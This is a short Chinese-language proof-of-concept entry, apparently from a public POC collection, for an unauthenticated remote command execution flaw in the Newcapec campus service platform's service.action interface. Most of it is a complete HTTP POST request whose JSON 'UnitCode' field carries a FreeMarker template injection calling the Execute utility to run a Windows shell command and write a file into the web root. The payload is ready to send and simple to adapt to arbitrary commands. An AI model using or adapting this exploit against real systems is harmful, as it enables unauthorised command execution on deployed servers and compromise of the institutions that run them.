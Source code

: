 # 新开普掌上校园服务管理平台service.action远程命令执行


## 新开普掌上校园服务管理平台service.action远程命令执行
新开普掌上校园服务管理平台service.action接口处存在远程命令执行漏洞，攻击者可在未经身份认证的情况下，调用后台接口，执行恶意系统命令。

## POC
```
POST /service_transport/service.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Connection: close
Content-Length: 211
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=6A13B163B0FA9A5F8FE53D4153AC13A4
Upgrade-Insecure-Requests: 1

{  "command": "GetFZinfo",  "UnitCode": "<#assign ex = "freemarker.template.utility.Execute"  ?new()>${ex("cmd /c echo 123 >./webapps/ROOT/test.txt")}"}

```

![image](https://github.com/wy876/POC/assets/139549762/1743d6a9-3472-4e9e-ad0e-86b1d5a50dac)
![image](https://github.com/wy876/POC/assets/139549762/67e35c0c-6892-409c-9239-425b79566650)


